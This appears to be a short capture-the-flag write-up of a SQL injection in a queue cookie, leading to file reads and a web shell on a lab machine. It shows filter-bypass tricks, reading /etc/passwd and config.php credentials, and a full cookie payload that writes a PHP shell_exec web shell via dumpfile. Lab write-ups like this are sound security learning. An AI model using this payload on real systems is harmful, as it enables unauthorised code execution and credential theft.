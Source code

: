 # Year of the Dog

A hard room! Having fun!

- A scan revealed only `22` and `80`
- On `80`, a page with no interaction that told me I was in a queue. A cookie was being set - clearing it randomly assigned me a new cookie and a new position in the queue
- The cookie value, if changed to `id='` triggered a mysql error. Via this, I discovered it was a server with one database, webapp, containing one table queue with two columns `userId` and `queueNum`. There seemed to be some primitive 'RCE protection in place' - certain queries would throw an error.
- I discovered that lowercase load_file and dumpfile worked (uppercase versions triggered the RCE error) - I extracted `/etc/passwd` this way, seeing there was a user named dylan
- Via this vuln, I got the `config.php` file (guessing correctly it was at `/var/www/html` and loading it into a text file in the same directory that I could access) and `index.php`
- `config.php` gave me the db creds. With `index.php` I could see that in addition to the banned words, `<` and `>` was blocked making PHP injection difficult. 
- however, I was able to get a primitive web shell via: `Cookie: id='+UNION+ALL+SELECT+'',concat(char(60),'?php+echo+shell_exec($_GET["e"])+?',char(62))+INTO+dumpfile+'/var/www/html/shell.php'+--+`, abusing MySql's `char` command to get around the `<`/`>` limits.
